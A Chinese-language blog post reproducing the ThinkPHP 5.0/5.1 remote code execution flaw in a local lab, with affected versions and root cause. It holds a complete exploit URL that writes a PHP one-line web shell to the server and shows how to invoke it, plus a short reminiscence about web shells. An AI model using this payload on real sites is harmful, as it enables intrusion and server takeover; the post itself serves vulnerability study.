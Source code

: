 ```yaml
---
title: Thinkphp-5.0 GetShell
abstract: '欢迎来到我的博客, 这是一篇加密文章。'
message: 请输入密码后按回车键
date: 2018-12-16 15:56:12
tags:
    - 安全
    - thinkphp
    - php
copyright:
password:
---
```



最近暴露出了ThinkPhp框架缺陷导致远程命令执行，奈何天网恢恢～～，小菜也只能在本地爽一把！

### 靶机环境

php5.6 + nginx + PHPStrom + xDebug

### 影响范围

- Thinkphp 5.1.0 - 5.1.31
- Thinkphp 5.0.5 - 5.0.23

### 产生原因

Thinkphp5.x版本(5.0.20)中没有对路由中的控制器进行严格过滤，没有开启强制路由的条件下 **(默认不开启)** ，导致可以注入恶意代码利用反射类调用命名空间其他任意内置类，完成远程代码执行。

<!-- more -->

### 漏洞复现

Thinkphp **pathinfo** 方法中 有这么一条代码**Config::get('var_pathinfo')** ，是配置文件中的设置的参数，而**'var_pathinfo'** 的默认配置为s，我们可以利用 $_GET['s'] 来传递路由信息，也可以利用pathinfo来传递结合前面分析可得初步利用代码如下：index.php?s=index/\namespace\class/method，


#### 代码利用

``` html
http://127.0.0.1/index.php?s=/index/\think\app/invokefunction
&function=call_user_func_array
&vars[0]=file_put_contents
&vars[1][]=shell.php
&vars[1][]=<?php @eval($_GET["code"])?>
```
#### GetShell

> http://127.0.0.1/shell.php

### 独白

还记得刚步入安全领域时，一直搞不懂什么是一句话木马
每次验证是否植入一句话木马成功，都要找**中国菜刀**去验证

直到有一天，顿悟了！
验证是否成功，可以这样！ -> http://127.0.0.1/shell.php?code=phpinfo()
原来所谓的密码就是参数名！
知道一句话木马原理的你，是不是各种网站开发语言的🐎，都有了！

那是不是，所有的网站都可以这样来搞呢，发现不行啊！
原来是@eval起的执行作用。这就出现了新的漏洞命令可执行漏洞--！

然后安全杀毒类软件诞生了，各种木马拦截，道友们开始了一句话木马的变异。
可谓是道高一尺，魔高一丈！

疏而不漏啊，还是转行的 **安全** ！！！